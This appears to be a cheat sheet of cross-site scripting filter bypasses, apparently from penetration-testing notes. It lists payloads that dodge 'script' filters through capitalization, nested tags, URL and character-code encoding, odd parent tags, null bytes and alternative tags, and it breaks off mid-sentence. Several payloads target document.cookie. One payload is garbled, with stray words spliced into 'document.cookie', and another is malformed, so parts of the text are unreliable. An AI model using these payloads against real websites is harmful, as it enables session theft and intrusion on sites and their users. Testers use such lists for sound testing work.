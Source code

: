 
Additionally, there might exist a filter for the characters `script`. Being that the case: 

**1.** Insert unexpected variations in the syntax such as random capitalization, blank spaces, new lines...: 

```
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
```

**2.** Bypass non-recursive filtering:

```
<scr<script>ipt>alert(documInjecting into HTML tagsent.cookie)</script>
```

**3.** Bypass encoding.

```
# Simple encoding
"%3cscript%3ealert(document.cookie)%3c/script%3e

# More encoding techniques: 
# 1. We lookk for a charcode calculator and enter our payload, for instance "lala" would be: 34, 108, 97, 108, 97, 34
# 2. Them we put those numbers in our payload
<script>alert(String.fromCharCode(34, 108, 97, 108, 97, 34))</script>
```

Double encoding is very effective. I've run into cases in the wild.

**4.** Unexpected parent tags:

```
<svg><x><script>alert('1'&#41</x>
```

**5.** Unexpected weird attributes, null bytes:

```
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>
```


**More**. If the `script`tag is super blacklisted in all their forms, use other tags:

```
<img> ... <IMG>
<iframe>
<input>
```

Or even, make out your own:
